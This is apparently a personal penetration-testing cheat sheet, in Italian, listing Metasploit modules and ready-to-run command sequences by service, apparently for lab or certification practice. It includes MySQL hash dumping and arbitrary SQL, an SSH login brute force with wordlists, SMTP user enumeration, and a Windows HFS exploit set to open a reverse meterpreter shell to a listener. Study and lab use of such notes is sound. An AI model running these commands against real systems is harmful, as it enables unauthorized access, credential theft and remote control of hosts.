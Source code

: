 
## MYSQL 3306
	1. auxiliary/scanner/mysql/mysql_version (identifica la versione del server MySQL e del protocollo usati dal target)
	2. auxiliary/scanner/mysql/mysql_login (prova a effettuare il login sul server MySQL tramite una forza bruta basata su una lista 	   di credenziali)
	3. auxiliary/admin/mysql/mysql_enum (enumera le informazioni sul server MySQL, come i database, le tabelle, le colonne e i dati)
	4. auxiliary/admin/mysql/mysql_sql (esegue una query SQL arbitraria sul server MySQL)
	5. auxiliary/scanner/mysql/mysql_file_enum (cerca e scarica i file presenti sul server MySQL tramite la funzione LOAD_FILE)
	6. auxiliary/scanner/mysql/mysql_hashdump (recupera e visualizza gli hash delle password degli utenti del server MySQL)
	7. auxiliary/scanner/mysql/mysql_schemadump (recupera e visualizza lo schema del database del server MySQL)
	8. auxiliary/scanner/mysql/mysql_writable_dirs (identifica le directory scrivibili sul server MySQL tramite la funzione INTO 		   OUTFILE)

## SSH 22
	• use auxiliary/scanner/ssh/ssh_login 
	  set RHOSTS 192.245.211.3 
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt 
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 
	  set STOP_ON_SUCCESS true 
	  set VERBOSE true 
	  exploit (brute force)

## SMTP 25
	• msfconsole 
	  use auxiliary/scanner/smtp/smtp_enum 
	  set RHOSTS 192.80.153.3 
	  exploit (enumera gli utenti rispetto alla wordlist di metasploit esistenti)


# My Personal List of modules for Exploitation 
**(use search command with type and platform to search an exploit for specific vulnerability)**
# Windows Exploitation

## Http file server HFS 80
	• nmap --top-ports 65536 10.0.0.99
	• nmap -sV -p 80 10.0.0.99
	• searchsploit hfs
	• msfconsole
	  use exploit/windows/http/rejetto_hfs_exec
	  set RPORT 80 (target)
	  set RHOSTS 10.0.0.99 (target)
	  set LHOST 10.10.0.4 (ascoltatore)
	  Exploit (apre una reverse tcp meterpreter)
	  
